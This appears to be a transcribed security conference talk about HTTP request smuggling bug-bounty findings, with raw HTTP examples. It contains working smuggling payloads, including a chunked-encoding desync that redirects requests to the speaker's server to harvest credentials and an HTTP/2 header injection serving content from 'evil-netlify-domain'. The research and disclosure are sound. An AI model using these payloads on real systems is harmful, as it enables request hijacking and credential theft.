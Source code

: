 ```
```

but when i triggered redirects i got an even more interesting request  landing on my server. it said "hello there, i'd like to have permission  to send you my credentials"
```
POST /account/login HTTP/1.1
Host: accounts.athena-aol.com
Content-Length: 104
Transfer-Encoding: chunked

0

GET /account/1/logout?next=https://psres.net/ HTTP/1.1
X-Ignore: X GET /??? HTTP/1.1

OPTIONS / HTTP/1.1
Host: psres.net
Access-Control-Request-Headers: authorization
```

so i reconfigured my service, so i said  "yeah absolutely sure, send me your credentials"
```
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Access-COntrol-Allow-Headers: authorization
```
and sure enough they did i  have a fantastic video from tcp dump showing credentials streaming  onto my server in real time, but unfortunately it was nearly impossible  to to adapt, so i gave up and i can't share it.  there's an interesting side point here which is if this website had been using  cookies for authentication, this exploit would not have worked because the  browser wouldn't have sent the cookies for one host to a to a  different host, that's not to say cookies are better for  authentication they're terrible just in different ways. for that i got a 10 000 bounty taking the total to 37k  

so that was the basic stuff now things are going to get a bit more interesting.  one cool thing about h2 is that because it's a binary protocol it lets you put  arbitrary characters, wherever you like and it relies on an extra layer of  server logic saying things like "nope you shouldn't be putting new lines in  headers". firefox's start page was powered by the  netlify cdn and they forgot to enforce this requirement, so as shown here this  led to a request header injection vulnerability, which i could use to  inject a transfer encoding chunk header and trigger requests  smuggling and serve up content from other sites on the netlify cdn. 
```Font-end
:method      POST
:authority   start.mozilla.org
:path        /
foo          b\r\n
            transfer-encoding: chunked
0\r\n
\r\n
GET / HTTP/1.1\r\n
Host: evil-netlify-domain\r\n
Content-Length: 5\r\n
\r\n
x=
```
```Back-end
POST / HTTP/1.1\r\n
Host: start.mozilla.org\r\n
foo: b\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET / HTTP/1.1\r\n
Host: evil-netlify-domain\r\n
Content-Length: 5\r\n
```